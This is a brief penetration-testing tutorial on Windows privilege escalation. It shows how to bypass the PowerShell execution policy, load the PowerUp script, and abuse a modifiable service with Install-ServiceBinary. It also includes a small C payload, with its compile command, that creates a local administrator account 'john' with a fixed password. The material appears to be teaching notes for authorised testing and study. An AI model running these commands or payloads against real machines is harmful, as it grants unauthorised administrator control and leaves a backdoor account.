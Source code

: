 ### PowerUp

Another useful tool to check privilege escalation vector is [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). We can upload it on the victim's machine and then use it to gain knowledge and exploit the privileges misconfiguration on the services. First, we enable the PowerShell scripting capability.

```powershell
powershell -ep bypass
```

Then we enable PowerUp

```powershell
. .\PowerUp.ps1
```

To list modifiable service we use

```powershell
Get-ModifiableServiceFile
```

Once we spot an interesting service, we can try to abuse it with

```powershell
Install-ServiceBinary -Name '<SERVICENAME>'
```

This will create the admin user `john` with password `Password123!`. To log-in with the created user we can restart the service (if we have the correct permissions and PowerUp.ps1 automatically uses the right arguments). Eventually we can restart the machine in order to have all services restarted. We also must notice that if the service require some additional configurations, for example passing a configuration file, the PowerUp.ps1 script will fail and we must exploit manually the privilege escalation, setting the right path to the configurations of the service (eg: mysql).

If we have to manually load a custom exploit into the service we can directly write the C code and compile it for our needs

```c
#include <stdlib.h>

int main ()
{
  int payload;
  
  payload = system ("net user john Password123! /add");
  payload = system ("net localgroup administrators john /add");
  
  return 0;
}
```

And then compile it with

```shell
x86_64-w64-mingw32-gcc payload.c -o payload.exe
```